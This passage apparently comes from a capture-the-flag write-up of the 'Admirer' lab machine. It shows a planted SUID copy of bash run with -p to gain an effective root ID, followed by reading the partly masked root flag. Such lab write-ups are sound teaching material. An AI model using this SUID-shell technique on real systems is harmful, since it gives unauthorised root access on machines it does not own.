 Or SUID `bash`:

```

waldo@admirer:/var/tmp$ ./.0xdf -p
.0xdf-4.4# id
uid=1000(waldo) gid=1000(waldo) euid=0(root) groups=1000(waldo),1001(admins)

```

Either way, grab `root.txt`:

```

root@admirer:~# cat root.txt
996a2609************************

```